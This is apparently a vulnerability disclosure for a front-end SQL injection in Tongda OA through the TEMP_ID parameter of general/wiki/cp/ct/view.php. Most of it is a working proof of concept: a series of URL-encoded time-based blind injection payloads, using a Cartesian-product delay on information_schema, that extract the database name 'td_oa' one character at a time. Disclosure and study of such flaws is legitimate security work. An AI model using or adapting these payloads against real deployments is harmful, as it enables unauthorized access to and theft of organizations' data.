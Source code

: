 Tongda OA has a front-end SQL injection vulnerability

version:Tongda v2017 version and versions below v11.10

Route: general/wiki/cp/ct/view.php

There is an injected parameter: $TEMP_ID

The code here is very simple. When $TEMP_ID is not empty, the parameters are directly spliced ​​into the SQL statement.

![image](https://github.com/zte12321/cve/assets/153057900/4cce18b1-d530-45bd-8890-d736c9d42128)

2.Payload

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```

![image](https://github.com/zte12321/cve/assets/153057900/591b2293-6318-4909-920b-f689ffc89318)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

POC
```
1%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```

![image](https://github.com/zte12321/cve/assets/153057900/59823e05-8a9c-4961-ad65-940a62ff2e61)


The third digit is the character _

```
1%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/zte12321/cve/assets/153057900/74429de0-07d0-40aa-b7f3-97f75814b1c8)

The fourth digit is the character o

```
1%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```

![image](https://github.com/zte12321/cve/assets/153057900/d1d7fe59-e694-463f-aeed-ae3dfb73fc1a)

The fifth digit is the character a

```
1%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/zte12321/cve/assets/153057900/3152f262-c62e-477c-9a5c-2cc4f4638232)

Then through blind injection, you can determine that the database name is: td_oa
